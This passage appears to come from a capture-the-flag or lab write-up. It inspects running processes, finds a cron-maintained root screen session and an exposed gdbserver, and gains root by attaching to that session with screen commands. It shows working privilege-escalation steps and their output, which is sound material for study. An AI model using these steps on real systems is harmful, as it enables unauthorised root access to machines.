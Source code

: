 Let’s look at running processes:

```bash
ps -ef --forest

#intersting finds:

root         966       1  0 17:46 ?        00:00:00 SCREEN -dmS root

root         801       1  0 17:46 ?        00:00:00 /usr/sbin/cron -f
root         812     801  0 17:46 ?        00:00:00  \_ /usr/sbin/CRON -f
root         852     812  0 17:46 ?        00:00:00  |   \_ /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; d
root        8396     852  0 18:35 ?        00:00:00  |       \_ su user -c cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
user        8399    8396  0 18:35 ?        00:00:00  |           \_ bash -c cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
user        8409    8399  0 18:35 ?        00:00:00  |               \_ gdbserver --once 0.0.0.0:1337 /bin/true
user        8413    8409  0 18:35 ?        00:00:00  |                   \_ /bin/true
root         813     801  0 17:46 ?        00:00:00  \_ /usr/sbin/CRON -f
root         861     813  0 17:46 ?        00:00:01      \_ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;;
root       11918     861  0 18:57 ?        00:00:00          \_ sleep 1
```

From this process, it looks like that screen is ran as user root in detached mode (-dmS) and it is executed by a cron job. Let’s list our cron jobs:

```bash
crontab -l
```

Nothing. Let’s just try to interact with screen:

```bash
screen -ls root/  #the trailing / is important

There is a suitable screen on:
        966.root        (09/01/2025 05:46:57 PM)        (Multi, detached)
1 Socket in /run/screen/S-root.

```

now to resume that session:

```bash
screen -r root/
```

We now have root.

Another way of getting the screen is through exporting the TERM environmental variable, then attaching to the session:

```bash
export TERM=xterm

screen -x root/root
```